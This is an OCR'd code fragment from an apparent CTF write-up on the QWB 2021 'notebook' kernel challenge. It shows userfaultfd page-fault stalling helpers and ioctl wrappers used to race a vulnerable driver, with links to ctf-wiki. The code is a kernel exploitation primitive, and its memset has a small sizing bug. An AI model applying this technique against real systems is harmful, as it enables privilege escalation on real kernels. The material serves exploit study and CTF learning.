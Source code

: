 ```c
    ur.range.start = (unsigned long)fault_page; 
    ur.range.len   = PAGE_SIZE;
    ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) 
        Panic("ioctl-UFFDIO_REGISTER");

    int s = pthread_create(&thr, NULL,handler, (void*)uffd);

    if (s!=0)
        Panic("pthread_create");
}
void* userfaultfd_leak_handler(void* arg)
{
    struct uffd_msg msg;
    unsigned long uffd = (unsigned long) arg;
    struct pollfd pollfd;
    int nready;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    
    nready = poll(&pollfd, 1, -1);
    sleep(3);
    if (nready != 1)
    {
        Panic("Wrong poll return val");
    }
    nready = read(uffd, &msg, sizeof(msg));
    if (nready <= 0)
    {
        Panic("msg err");
    }

    char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
    {
        Panic("[-] mmap err");
    }
    struct uffdio_copy uc;
    // init page
    memset(page, 0, sizeof(page));
    uc.src = (unsigned long) page;
    uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
    uc.len = PAGE_SIZE;
    uc.mode = 0;
    uc.copy = 0;
    ioctl(uffd, UFFDIO_COPY, &uc);
    return NULL;
}
void add(size_t idx,size_t size,size_t name)
{
    X n132;
    n132.idx = idx;
    n132.buf = name;
    n132.size = size;
    ioctl(fp,0x100,&n132);
}
void edit(size_t idx,size_t size,size_t name){
    X n132;
    n132.idx = idx;
    n132.buf = name;
    n132.size = size;
    ioctl(fp,0x300,&n132);
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
[3]: https://github.com/n132/attachment/tree/main/QWB_2021_Qual/notebook